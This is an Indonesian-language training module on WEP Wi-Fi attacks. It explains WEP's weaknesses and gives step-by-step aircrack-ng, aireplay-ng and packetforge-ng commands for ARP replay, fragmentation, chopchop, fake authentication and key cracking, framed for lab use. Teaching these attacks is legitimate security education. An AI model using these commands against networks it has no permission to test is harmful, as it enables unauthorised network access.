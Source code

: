 # Modul 14: WEP Attacks

## WEP Weakness dan Vulnerability

- **Definisi**: Wired Equivalent Privacy (WEP) adalah protokol keamanan Wi-Fi lama yang menggunakan enkripsi RC4 dan kunci statis (64-bit atau 128-bit).
- **Kelemahan**:
  - **Initialization Vector (IV) Lemah**: IV 24-bit terlalu pendek, menyebabkan reuse IV yang memudahkan analisis kriptografi.
  - **RC4 Flaws**: Algoritma RC4 rentan terhadap serangan statistik, seperti FMS attack.
  - **Kunci Statis**: Kunci tidak berubah, memungkinkan pengumpulan data untuk cracking.
  - **Integritas Lemah**: CRC-32 mudah dimanipulasi, memungkinkan serangan seperti Chopchop.
- **Kerentanan**:
  - Mudah diretas dengan alat seperti Aircrack-ng dalam hitungan menit.
  - Rentan terhadap serangan replay, fragmentation, dan fake authentication.
- **Status**: Usang, tidak aman, tidak direkomendasikan untuk digunakan.
- **Contoh Penggunaan**: Jaringan lama atau perangkat IoT murah yang masih menggunakan WEP.

## ARP Request Replay Attack

- **Definisi**: Serangan yang menangkap dan mengulang (replay) paket ARP untuk menghasilkan IV baru, mempercepat pengumpulan data untuk cracking WEP.
- **Langkah-langkah**:
  1. Aktifkan monitor mode: `sudo airmon-ng start wlan0`.
  2. Tangkap paket: `sudo airodump-ng --bssid [BSSID] --channel [CHANNEL] --write arp_replay wlan0mon`.
  3. Identifikasi ARP paket: Gunakan Wireshark atau perhatikan data rate di airodump-ng.
  4. Replay ARP: `sudo aireplay-ng --arpreplay -b [BSSID] -h [CLIENT_MAC] wlan0mon`.
  5. Crack kunci dengan data IV yang terkumpul (lihat Cracking WEP).
- **Kelebihan**: Cepat menghasilkan IV, efektif di jaringan dengan lalu lintas rendah.
- **Kekurangan**: Memerlukan klien aktif yang mengirim ARP.
- **Contoh Penggunaan**: Mempercepat cracking WEP di jaringan lab dengan lalu lintas rendah.

## Fragmentation Attack

- **Definisi**: Serangan yang memanipulasi paket WEP untuk merekonstruksi kunci data dengan mengeksploitasi kelemahan enkripsi RC4.
- **Langkah-langkah**:
  1. Aktifkan monitor mode: `sudo airmon-ng start wlan0`.
  2. Tangkap paket: `sudo airodump-ng --bssid [BSSID] --channel [CHANNEL] wlan0mon`.
  3. Lakukan fake authentication: `sudo aireplay-ng --fakeauth 0 -a [BSSID] -h [CLIENT_MAC] wlan0mon`.
  4. Jalankan fragmentation: `sudo aireplay-ng --fragment -b [BSSID] -h [CLIENT_MAC] wlan0mon`.
  5. Gunakan `packetforge-ng` untuk membuat paket ARP: `sudo packetforge-ng --arp -a [BSSID] -h [CLIENT_MAC] -k 255.255.255.255 -l 255.255.255.255 -w arp.cap`.
  6. Replay paket untuk menghasilkan IV.
- **Kelebihan**: Tidak memerlukan banyak lalu lintas asli, efektif di jaringan sepi.
- **Kekurangan**: Memerlukan keahlian teknis dan waktu lebih lama dibandingkan ARP replay.
- **Contoh Penggunaan**: Menyerang jaringan WEP dengan lalu lintas minimal.

## Chopchop Attack

- **Definisi**: Serangan yang mendekripsi paket WEP byte demi byte dengan memanipulasi integritas CRC-32.
- **Langkah-langkah**:
  1. Aktifkan monitor mode: `sudo airmon-ng start wlan0`.
  2. Tangkap paket: `sudo airodump-ng --bssid [BSSID] --channel [CHANNEL] wlan0mon`.
  3. Lakukan fake authentication: `sudo aireplay-ng --fakeauth 0 -a [BSSID] -h [CLIENT_MAC] wlan0mon`.
  4. Jalankan chopchop: `sudo aireplay-ng --chopchop -b [BSSID] -h [CLIENT_MAC] wlan0mon`.
  5. Gunakan output untuk membuat paket ARP dengan `packetforge-ng`.
  6. Replay paket untuk menghasilkan IV.
- **Kelebihan**: Bekerja tanpa klien aktif, menghasilkan kunci data untuk injeksi.
- **Kekurangan**: Lambat, memerlukan waktu untuk mendekripsi setiap byte.
- **Contoh Penggunaan**: Menyerang jaringan WEP tanpa aktivitas klien di lab.

## Fake Authentication

- **Definisi**: Teknik untuk mengelabui AP agar menerima perangkat sebagai klien sah tanpa mengetahui kunci WEP.
- **Langkah-langkah**:
  1. Aktifkan monitor mode: `sudo airmon-ng start wlan0`.
  2. Tangkap data AP: `sudo airodump-ng --bssid [BSSID] --channel [CHANNEL] wlan0mon`.
  3. Lakukan fake authentication: `sudo aireplay-ng --fakeauth 0 -a [BSSID] -h [CLIENT_MAC] wlan0mon`.
- **Kelebihan**: Memungkinkan injeksi paket tanpa autentikasi asli, mendukung serangan lain seperti ARP replay.
- **Kekurangan**: Tidak bekerja pada AP dengan MAC filtering ketat.
- **Contoh Penggunaan**: Mengelabui AP WEP untuk memulai serangan fragmentation di lingkungan lab.

## Cracking WEP dengan Aircrack-ng

- **Definisi**: Proses menggunakan Aircrack-ng untuk memecahkan kunci WEP dari IV yang dikumpulkan.
- **Langkah-langkah**:
  1. Aktifkan monitor mode: `sudo airmon-ng start wlan0`.
  2. Tangkap paket dengan IV: `sudo airodump-ng --bssid [BSSID] --channel [CHANNEL] --write wep_capture wlan0mon`.
  3. (Opsional) Percepat dengan ARP replay, fragmentation, atau chopchop untuk mengumpulkan IV lebih cepat.
  4. Crack kunci: `sudo aircrack-ng -b [BSSID] wep_capture*.cap`.
     - Biasanya membutuhkan 10.000–40.000 IV untuk kunci 64-bit, lebih banyak untuk 128-bit.
  5. Output menunjukkan kunci WEP dalam format heksadesimal (misalnya `1A:2B:3C:4D:5E`).
- **Kelebihan**: Cepat, otomatis, mendukung berbagai metode pengumpulan IV.
- **Kekurangan**: Memerlukan adapter dengan monitor mode dan injeksi, tidak relevan untuk jaringan modern (WPA/WPA3).
- **Catatan Etika**: Hanya lakukan di jaringan yang diizinkan, seperti lab pengujian.
- **Contoh Penggunaan**: Cracking kunci WEP di jaringan lab untuk mendemonstrasikan kerentanan.

